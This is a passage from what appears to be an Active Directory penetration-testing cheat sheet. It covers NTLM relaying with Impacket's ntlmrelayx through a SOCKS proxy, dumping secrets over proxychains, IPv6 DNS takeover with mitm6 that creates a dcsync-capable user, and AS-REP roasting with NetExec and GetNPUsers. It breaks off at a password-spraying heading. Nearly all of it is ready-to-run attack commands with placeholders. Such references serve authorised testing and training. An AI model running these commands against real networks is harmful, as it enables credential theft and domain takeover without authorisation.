 Impacket's ntlmrelayx with create a socks proxy at `127.0.0.1:1080`. If a Domain Admin proxy is created, it can be used for further exploitation. For example:

- Use proxychains and the ntlmrelayx created proxy to do secrets dump:

```c
proxychains impacket-secretsdump -no-pass -outputfile dump.txt <DOMAIN>/<USER>@<IP>
```

**NOTE:** With a socks connection you can only use smbexec or atexec. Neither wmiexec, psexec nor dcomexec will work. (explainations [here](https://github.com/SecureAuthCorp/impacket/issues/412) )

#### IPv6 DNS Takeover via mitm6
---
**NOTE:** If and **administrator** log-in occurs, ntlmrelayx will attempt to create a user that has rights to perform a **dcsync attack**.

**NOTE:** Ntlmrelayx will also run `ldapdomaindump.py` to dump information about the domain inside `OUTPUT-DIR`.

- Set up **mitm6**:

```c
sudo mitm6 -d <DOMAIN>
```

- Set up **impacket-ntlmrelayx**:

```python
impacket-ntlmrelayx -6 -t ldaps://<DC-IP> -wh fakewpad.<DOMAIN> -l <OUTPUT-DIR> -debug | tee ntlmrelayx.log
```

### Attacks with Valid Usernames ( No Passwords / No Sessions)
---
#### ASREPRoasting
---
Getting password hashes from users without Kerberos pre-authentication required. Read more [here](https://bloodstiller.com/articles/understandingasreproasting/)

- Using **NetExec**:

```c
nxc ldap <DC-IP> -u <USER/USERLIST> -p '' --kdcHost <KDC-IP> -d <DOMAIN> --asreproast output.txt
```

- Using Impacket's **GetNPUsers**:

```c
impacket-GetNPUsers -format <hashcat/john> -outputfile <OUTFILE> -usersfile <USERLIST> -dc-ip <DC-IP> <DOMAIN>/
```

#### Password Spraying
---
**NOTE:** Carefull of lock out policy!
